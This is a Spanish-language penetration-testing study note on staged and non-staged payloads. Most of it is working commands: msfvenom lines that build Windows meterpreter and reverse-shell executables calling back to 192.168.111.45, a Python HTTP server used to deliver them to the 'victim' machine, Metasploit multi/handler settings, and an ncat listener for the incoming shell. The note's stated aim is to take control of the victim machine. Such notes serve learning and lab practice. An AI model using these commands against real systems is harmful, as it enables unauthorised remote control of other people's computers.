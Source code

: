 
----
- Tags: #Payloads #Staged #Non-Staged
----

> **Payload Staged**: Es un tipo de payload que se **divide en dos** **o más etapas**. La primera etapa es una pequeña parte del código que se envía al objetivo, cuyo propósito es establecer una conexión segura entre el atacante y la máquina objetivo. Una vez que se establece la conexión, el atacante envía la segunda etapa del payload, que es la carga útil real del ataque. Este enfoque permite a los atacantes sortear medidas de seguridad adicionales, ya que la carga útil real no se envía hasta que se establece una conexión segura.

**Un ejemplo del Staged es el siguiente:**
```Zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=192.168.111.45 LPORT=4646 -f exe -o reverse.exe
```
- Con este comando obtendríamos un ejecutable que debemos transferir a la maquina víctima 
**Lo compartimos a nivel de red:**
```python
python -m http.server 1212
```
- Para este punto ya deberíamos tener comprometida la maquina eh ingresar por el navegador por la ip del atacante por el puerto 1212 y descargar la reverse.exe
**Iniciamos Metasploit**
```zsh
msfdb run
```
**En el interprete ingresamos los siguientes comandos:**
```Metasploit
>>use exploit/multi/handler
>>set payload windows/x64/meterpreter/reverse_tcp
>>show options
>>set LHOST 192.168.111.45
>>set LPORT 4646
>>run
```
- En este punto ponemos a correr el archivo reverse.exe en la maquina victima para obtener acceso.

> **Payload Non-Staged**: Es un tipo de payload que se envía como **una sola entidad** y **no se divide en múltiples etapas**. La carga útil completa se envía al objetivo en un solo paquete y se ejecuta inmediatamente después de ser recibida. Este enfoque es más simple que el Payload Staged, pero también es más fácil de detectar por los sistemas de seguridad, ya que se envía todo el código malicioso de una sola vez.

**Ejemplo de Non-Staged:**
```Metasploit
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=192.168.111.45 LPORT=4646 -f exe -o shell.exe
```

**Compartimos un servidor HTTP:**
```python
python3 -m http.server 1212
```

**Descargamos la shell por el puerto compartido y corremos metasploit:**
```Metasploit
msfdb run
>>use exploit/multi/handler
>>set payload windows/x64/meterpreter_reverse_tcp
>>show options
>>set LHOST 192.168.111.45
>>set LPORT 4646
>>run
```


- TIPS:
  **Tambien lo podemos realizar a través de ncat realizando casi el mismo proceso, solo en el comando hay que cambiar el meterpreter por shell **
  ejemplo:

 ```
 msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=192.168.111.45 LPORT=4646 -f exe -o shell.exe
 ```

   **Compartimos el archivo por el puerto 1212**
```python
python3 -m http.server 1212
```

- **Descargamos el archivo compartido por el puerto 1212 por la dirección 192.168.111.45:1212 en la maquina victima**
  
 **Nos ponemos en escucho con nc por el puerto 4646**
 ```zsh
 rlwrap nc -nlvp 4646
```

- Luego ejecutamos el archivo .exe en la maquina victima para poder tomar control de ella por nuestra shell ;)
- rlwrap nos permite realizar comandos como ctrl+l para limpiar y demas.
